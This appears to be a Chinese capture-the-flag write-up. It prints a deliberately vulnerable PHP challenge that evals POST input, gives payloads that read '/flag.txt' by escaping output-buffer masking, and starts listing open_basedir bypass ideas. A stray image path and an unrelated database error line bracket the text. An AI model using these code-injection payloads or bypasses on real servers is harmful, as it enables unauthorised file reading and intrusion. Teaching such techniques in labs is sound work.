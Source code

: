 题目：这段 PHP 代码的作用是将输出缓冲区（Output Buffer）中的内容取出，然后清除缓冲区，并将取出的内容中的所有数字和字母替换为问号（"?"），最后输出替换后的内容。

1. `ob_get_contents()`：这个函数用于获取当前输出缓冲区的内容。输出缓冲区是 PHP 中用来存储输出内容的区域，通常用于缓存输出，以便在输出之前进行修改。
2. `ob_end_clean()`：这个函数用于清除（清空）输出缓冲区的内容，并关闭当前的输出缓冲区。这个函数在清除缓冲区后，还会关闭缓冲，所以之后不能再使用 `ob_get_contents()` 获取内容。

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

**思路：提前退出缓冲区，或者提前将缓冲区内容输出**

```php
c=include('/flag.txt');ob_flush();
c=include('/flag.txt');exit();
c=include('/flag.txt');die();
```



## Web72

题目与前面相同，但在遍历目录的时候无法进入其他目录，猜测开启了Open_basedir

### Open_basedir绕过有如下几个方法：

- 方法一：执行系统命令绕过open_basedir对php代码的限制，但是这里明显不行system();exec();这些函数都被禁用了
- 方法二：glob://伪协议突破open_basedir，但是这个很鸡肋只能目录扫描，不能读文件


[ERROR]: could not find driver